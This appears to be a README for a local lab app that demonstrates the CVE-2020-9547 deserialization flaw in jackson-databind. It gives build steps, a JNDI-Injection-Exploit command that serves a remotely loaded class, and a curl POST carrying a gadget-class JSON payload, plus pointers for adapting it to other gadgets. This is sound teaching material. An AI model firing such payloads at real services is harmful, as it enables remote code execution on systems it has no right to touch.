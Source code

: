 # Deserialization vulnerabilities in jackson-databind

## Background

Deserialization vulnerabilities in jackson-databind are exploitable if the following conditions hold:
- Polymorphic type handling has been enabled for jackson-databind (see [here](https://cowtowncoder.medium.com/on-jackson-cves-dont-panic-here-is-what-you-need-to-know-54cd0d6e8062) or [here](https://snyk.io/blog/java-json-deserialization-problems-jackson-objectmapper/))
- A gadget class, which loads Java classes through JNDI, is in the classpath and has not yet been blocked by the deny-list implemented in jackson-databind
- The system property `trustURLCodebase` is true, either because the application runs on an old Java version or it has been set explicitely (see [here](https://www.rapid7.com/blog/post/2021/12/10/widespread-exploitation-of-critical-remote-code-execution-in-apache-log4j/))

## Prerequisites

1. Install Java 8+ and Maven
2. Install server toolkit from https://github.com/welk1n/JNDI-Injection-Exploit in folder `lib`

## Run the application

1. Build the Spring Boot app with `mvn clean package`
2. Start it with `java -Dcom.sun.jndi.ldap.object.trustURLCodebase=true -jar target/springboot-app-0.0.1-SNAPSHOT.jar`
    - Note: The system property is required on recent Java versions.
3. Get JSON with `curl http://localhost:8080/persons/foo`
4. Post legitimate JSON

```
curl -X POST -H 'Content-type:application/json;charset=UTF-8' http://localhost:8080/persons -d '
{ "id" : 2,
  "firstname" : "John",
  "lastname" : "Doe",
  "createdAt" : "2024-02-19T10:35:20.867+0000",
  "modifiedAt" : "2024-02-19T10:35:20.867+0000"
}'
```

## Exploit CVE-2020-9547
<!--
1. Start a Web server to host the `com.acme.backdoor.Backdoor`

```
python3 -m http.server 9000 --directory target/test-classes
```

2. Start an LDAP server that redirects to the Web server

````sh
mvn dependency:copy-dependencies
java -cp target/dependency/unboundid-ldapsdk-3.1.1.jar:target/test-classes \
    com.acme.jndi.LDAPRefServer \
    http://localhost:9000#com.acme.backdoor.Backdoor
````-->

One gadget class of this vulnerability is `br.com.anteros.dbcp.AnterosDBCPConfig` (see [here](https://github.com/fairyming/CVE-2020-9547/blob/master/Poc.java)).

1. Run the LDAP and Web server with `java -jar lib/JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "open http://www.google.de" -A "127.0.0.1"`

    - The command specified with `-C` will be executed by the Spring Boot application upon deserialization.
    - Copy one of the `ldap://` URLs shown in the console.

2. Post a JSON that causes jackson-databind to deserialize the gadget class, which downloads and initializes the backdoor (this only works because the attribute `Person#modifiedAt` is of type `Object`, which is where the polymorphic type handling kicks in).

```
curl -X POST -H 'Content-type:application/json;charset=UTF-8' http://localhost:8080/persons -d '
{ "id" : 2,
  "firstname" : "John",
  "lastname" : "Doe",
  "createdAt" : "2024-02-19T10:35:20.867+0000",
  "modifiedAt" : ["br.com.anteros.dbcp.AnterosDBCPConfig", {"healthCheckRegistry": "<ldap-url>"}]
}'
```

## Exploit other vulnerabilities

- Edit the `pom.xml` to declare dependencies on JARs that include the respective gadget classes.
- Change the names of the gadget class and attribute in the JSON payload.

## References

- LDAP and Web servers to serve a dummy class upon deserialization
    - https://github.com/welk1n/JNDI-Injection-Exploit
    - https://github.com/mbechler/marshalsec
- Background on JSON deserialization
    - https://cowtowncoder.medium.com/on-jackson-cves-dont-panic-here-is-what-you-need-to-know-54cd0d6e8062
    - https://snyk.io/blog/java-json-deserialization-problems-jackson-objectmapper/
    - https://github.com/GrrrDog/Java-Deserialization-Cheat-Sheet
    - https://github.com/mbechler/marshalsec/blob/master/README.md
